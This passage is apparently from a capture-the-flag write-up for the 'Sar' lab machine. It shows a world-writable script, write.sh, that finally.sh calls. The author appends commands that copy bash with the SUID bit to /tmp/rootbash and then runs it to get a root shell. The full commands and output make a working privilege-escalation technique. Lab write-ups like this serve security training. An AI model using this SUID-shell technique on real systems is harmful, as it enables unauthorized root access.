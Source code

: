> No exploitable file permissions
{: .prompt-danger }

Lets have a look at the file `write.sh` which is mentioned in the `finally.sh`.

### content of `/var/www/html/write.sh`
```bash
www-data@sar:/var/www/html/sar2HTML$ cat /var/www/html/write.sh
cat /var/www/html/write.sh
#!/bin/sh

touch /tmp/gateway
```

### permissions of `/var/www/html/write.sh`
```bash
www-data@sar:/var/www/html/sar2HTML$ ls -lsah /var/www/html/write.sh
ls -lsah /var/www/html/write.sh
4.0K -rwxrwxrwx 1 www-data www-data 30 Jul 24  2020 /var/www/html/write.sh
```

> File permissions are exploitable to get `root` access.
{: .prompt-info }

### add malicous code to `/var/www/html/write.sh` to copy `bash` with `SUID` flag to `/tmp`
```bash
www-data@sar:/var/www/html/sar2HTML$ cd /var/www/html
cd /var/www/html
www-data@sar:/var/www/html$ echo "cp /bin/bash /tmp/rootbash" >> write.sh
echo "cp /bin/bash /tmp/rootbash" >> write.sh
www-data@sar:/var/www/html$ echo "chmod +xs /tmp/rootbash" >> write.sh
echo "chmod +xs /tmp/rootbash" >> write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

### wait 5 minutes and then look in `/tmp`

```bash
www-data@sar:/tmp$ ./rootbash -p
# whoami
root
```

> We got root!
{: .prompt-info }

---
